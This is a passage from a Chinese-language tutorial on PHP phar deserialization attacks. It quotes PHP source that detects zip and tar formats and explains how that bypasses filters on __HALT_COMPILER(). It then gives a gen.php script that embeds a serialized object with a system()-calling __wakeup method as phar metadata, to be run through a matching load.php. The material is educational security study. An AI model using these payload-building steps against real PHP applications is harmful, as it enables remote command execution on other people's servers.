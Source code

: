```php
            ...
        }

        if (!memcmp(pos, zip_magic, 4)) {
            php_stream_seek(fp, 0, SEEK_END);
            return phar_parse_zipfile(fp, fname, fname_len, alias, alias_len, pphar, error TSRMLS_CC);
        }

        if (got > 512) {
            if (phar_is_tar(pos, fname)) {
                php_stream_rewind(fp);
                return phar_parse_tarfile(fp, fname, fname_len, alias, alias_len, pphar, is_data, compression, error TSRMLS_CC);
            }
        }
    }
```
这一个特性可以绕过针对 `__HALT_COMPILER();` 的过滤, 构造 payload 的方式一共有以下几种, 因为 php 是根据 meta-data 来判断一个文件是否符合条件，因此所有类型的 payload 的后缀都可以进行更改，但不能没有后缀。
1. phar 文件
2. tar 文件
3. bzip 文件
4. gzip 文件
5. zip 文件

注意 php 要想生成 phar 文件需要修改 php.ini 中的 readonly 为 Off
```ini
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```


### phar
生成一个最简单的 phar 文件，

gen.php
```php
<?php
    class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }
    @unlink("test.phar");
    $phar = new Phar("test.phar");                  // 后缀名必须为 phar，生成之后可以修改
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");  // 设置stub
    $o = new Sink();
    $o->cmd = "id";
    $phar->setMetadata($o);                         // 将自定义的 meta-data 存入 manifest
    $phar->addFromString("test.txt", "test");       // 添加要压缩的文件
                                                    //签名自动计算
    $phar->stopBuffering();
?>
```
load.php
```php
<?php
class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }
```